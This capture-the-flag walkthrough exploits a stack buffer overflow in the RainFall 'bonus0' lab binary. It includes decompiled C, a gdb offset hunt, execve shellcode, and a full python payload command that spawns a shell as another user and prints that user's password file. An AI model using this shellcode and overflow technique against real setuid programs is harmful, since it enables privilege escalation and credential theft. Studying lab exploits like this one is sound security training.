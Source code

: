 # Bonus0 Walkthrough

## Who am I?

```bash
bonus0@RainFall:~$ id
uid=2010(bonus0) gid=2010(bonus0) groups=2010(bonus0),100(users)
```

## Where am I?

```
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0*
# note: the `s` bits indicate setuid/setgid, the binary runs with the owner's privileges (here `bonus1`) when executed by another user (here `bonus0`).
```

---

## Discovery, behavior test


```bash
bonus0@RainFall:~$ ./bonus0
 -
hello
 -
world
hello world
```

**Observation**: The program prints back a string that looks like the concatenation of both inputs separated by a space.

---

## Function analysis

```c
#include <stdlib.h>
#include <string.h>

char	*p(char *s, char *str)
{
	char	buffer[4096];

	puts(str);
	read(0, buffer, 4096);
	*strchr(buffer, '\n') = 0;
	return (strncpy(s, buffer, 20));
}

char	*pp(char *buffer)
{
	char		b[20];
	char		a[20];
	unsigned int	len;

	p(a, " - ");
	p(b, " - ");
	strcpy(buffer, a);
	len = strlen(buffer);
	buffer[len] = ' ';
	buffer[len + 1] = 0;
	return (strcat(buffer, b));
}

int	main(void)
{
	char	buffer[42];

	pp(buffer);
	puts(buffer);
	return (0);
}
```

* `p(char *s, char *str)`

  * allocates a large local buffer (4096 bytes) on the stack.
  * prints the prompt string `str`.
  * performs `read(0, buffer, 4096)` then replaces `\n` with `\0`.
  * calls `strncpy(s, buffer, 20)` and returns `s`.
  * **Implication :** if the line read has >=20 bytes, `s` receives 20 bytes but may not be null-terminated.

* `pp(char *buffer)`

  * defines `a[20]` then `b[20]` as local arrays.
  * calls `p(a, " - ")` then `p(b, " - ")`.
  * does `strcpy(buffer, a)`, computes `len = strlen(buffer)`, sets `buffer[len] = ' '`, then `strcat(buffer, b)`.
  * **Implication :** `strcpy(buffer, a)` will keep copying bytes past `a` until a `\0` is found that `\0` may lie inside `b` or beyond, producing a much longer string than 20 bytes.

* `main()`

  * allocates `buffer[42]` and calls `pp(buffer)`.
  * `buffer[42]` is the place where the concatenated string ends up and where overflow is observed.

**Conclusion** : p() reads up to 4096 bytes into a local buffer and then does strncpy(s, buffer, 20). If the first input is ≥20 bytes, s may not be NUL‑terminated.

pp() holds a[20] and b[20], then calls strcpy(buffer, a), adds a space and b so when a lacks \0, strcpy continues into b.

The effective string copied into main buffer[42] can therefore be a + b + ' ' + b, up to 61 bytes (40 + 1 + 20).

Because main buffer is 42 bytes, up to 19 bytes can overwrite stack control data (saved EBP / return address). Exact byte offset that reaches EIP must be measured on the target.

Exploit idea: place NOP‑sled + shellcode via the large p() read (first input), then craft b so that at the measured offset it contains a little‑endian return address into the sled; strcpy/strcat will then overwrite the return address and jump to your shellcode.

---

## Build the exploit

### 1) Confirm the EIP overwrite offset

* Create cyclic pattern and crash under gdb:

```bash
msf-pattern_create -l 200 > /tmp/patt
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
01234567890123456789
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb) 


# in gdb after crash: get EIP value
msf-pattern_offset -q 0x41336141
[*] Exact match at offset 9
```

* Compute global offset: offset_in_b is 9, so global_offset = 20 + 9 = 29 (index in the concatenated string that overwrites the first byte of EIP).

### 2) Find the big local buffer address (where we can place shellcode)

* Set a breakpoint in `p()` where the large buffer is set up (0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax) and run to get the stack address:

```gdb
disas p
b *p+28
run
# at breakpoint
p $ebp-0x1008
$1 = (void *) 0xbfffe680
(gdb) p/x 0xbfffe680 + 100
$2 = 0xbfffe6e4
```

* Choose any address in [start, start+L-1]; prefer the middle ret_addr = start + L//2.
For L = 200 and start = 0xbfffe680 → ret_addr = 0xbfffe680 + 100 = 0xbfffe6e4 (little-endian bytes: \xe4\xe6\xff\xbf).

### 3) Build payloads

* **First input (a)**: place a NOP sled + shellcode. Keep total length >=20 so strncpy writes 20 bytes (non-null-terminated) and the heap/p stack contains the full sled.

**Shellcode (28 bytes)**: execve("/bin//sh") — source: [https://shell-storm.org/shellcode/files/shellcode-811.html](https://shell-storm.org/shellcode/files/shellcode-811.html)

```bash
payload1 = NOP sled * 200 + shell
payload1 = "\x90" * 200 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

* **Second input (b)**: craft padding to reach the overwrite position inside `b` then write the return address (little-endian) and optional trailing filler.

If offset_in_b = 9 and saved EIP begins at global index 29:

```bash
payload2 = "A" * offset_in_b + ret_addr + "B" * 7
payload2 = "A" * 9 + "\xe4\xe6\xff\xbf" + "B" * 7
```

* **Final Payload**:

```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xe4\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

```

## **Files in this repository**

* `flag.txt`: file containing the retrieved flag
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)

---

## Conclusion

The binary is exploitable due to a large stack read followed by a non-null-terminated strncpy and subsequent strcpy/strcat of adjacent locals, allowing a return-address overwrite. Using a cyclic pattern and GDB we found the EIP overwrite at global index 29 (offset 9 in b), placed a NOP sled + shellcode in p()’s large buffer and overwrote the return address to jump into it.

